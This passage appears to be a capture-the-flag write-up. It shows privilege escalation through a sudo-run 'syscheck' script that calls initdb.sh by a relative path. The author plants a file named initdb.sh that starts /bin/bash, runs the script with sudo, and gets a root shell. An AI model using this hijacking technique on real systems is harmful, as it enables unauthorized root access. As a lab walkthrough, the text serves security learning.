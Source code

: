 ```bash
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

The most interesting part of this script is the invokation of initdb.sh. This script invokes the initdb.sh which is supposed to be in the current directory where the script is being run. We can create a reverse shell script and name it initdb.sh.

```bash
#!/bin/bash
/bin/bash
```

We now can run the syscheck script with sudo.
```sh
# sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
# whoami
root
```

We know have gained root access to the machine. The root flag can be found at `/root`.
